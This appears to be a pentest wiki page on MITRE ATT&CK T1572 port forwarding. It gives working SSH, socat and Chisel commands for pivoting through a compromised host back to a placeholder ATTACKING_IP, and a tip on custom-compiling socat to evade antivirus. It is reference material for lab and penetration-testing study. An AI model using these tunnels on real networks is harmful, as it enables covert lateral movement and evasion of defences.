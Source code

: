 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - ID T1572 
---
```

# Port Forwarding

## Theory
Port Forwarding, consist of using any compromised host as a jump box to pivot to other hosts. It is expected that some machines will have more network permissions than others.

## Practice
### SSH tunneling
SSH port forwarding is a mechanism in SSH for tunneling application ports from the client machine to the server machine, or vice versa.  
Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:  

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```
{% tabs %}
{% tab title="SSH Local-Forwarding" %}
**Local port forwarding** is used to **forward a port from the client machine to the server machine**. Basically, the SSH client listens for connections on a configured port, and when it receives a connection, it tunnels the connection to an SSH server. The server connects to a configurated destination port, possibly on a different machine than the SSH server.  
  
This example opens a connection to the jump-server.net, and forwards any connection to port 80 on the local machine to port 80 on intra.example.com.
```bash
veresk@kali$ ssh -L *:80:intra.example.com:80 user@jump-server.net -fN
```
{% endtab %}

{% tab title="SSH Remote-Forwarding" %}
**Remote port forwarding** allows a client machine of an SSH connection to redirect one of its ports to a port on the server, or to redirect a port of a network machine from the SSH server to a port local to the server.  
  
On a compromised computer (jump-server), we can connect back to the attackbox with a reverse port forward using the following command, this example produce the same result as previously seen with Local-Forwarding. Any connection on `ATTACKING_IP:8000` will be redirected on `intra.example.com:80`

```bash
PC> ssh -R 8000:intra.example.com:80 tunneluser@ATTACKING_IP -fN
```

In newer versions of the SSH client, it is also possible to create a **reverse proxy** (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it: 
```bash
ssh -R 9090 tunneluser@ATTACKING_IP -fN
```
{% endtab %}
{% endtabs %}

### SOCAT
We can use static binaries of socat to pivot, they are easy to find for both Linux and Windows. 
{% hint style="danger" %}
Windows version is unlikely to bypass Antivirus software by default, so custom compilation may be required.
{% endhint %} 

{% tabs %}
{% tab title="Forward" %}
The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server. 
```bash
PC> ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```
{% endtab %}

{% tab title="Reverse" %}
First of all, on our own attacking machine, we issue the following command:
```bash
v4resk@kali$ ./socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```
Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
```bash
PC> ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```
Now throught `localhost:8000` we can access `172.16.0.10:80`
```bash
#Example
PC> ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```
{% endtab %}
{% endtabs %}


### CHISEL
[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided).  

{% tabs %}
{% tab title="Reverse Proxy" %}
We can do a Reverse Proxy with Chisel. This connects back from a compromised server to a listener waiting on our attacking machine: 
```bash
v4resk@kali$ ./chisel server -p LISTEN_PORT --reverse &
```
On the compromised host, we would use the following command:
```bash
www-data@pwned.lab$ ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```
{% endtab %}
{% tab title="Forward Proxy" %}
We can do a Forward Proxy with Chisel
```bash
v4resk@kali$ ./chisel client TARGET_IP:LISTEN_PORT LOCAL_PROXY_PORT:socks
```
On the compromised host, we would use the following command:
```bash
www-data@pwned.lab$ ./chisel server -p LISTEN_PORT --socks5
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1572/" %}
{% embed url="https://podalirius.net/en/articles/ssh-port-forwarding/" %}
{% embed url="https://tryhackme.com/room/wreath"%}



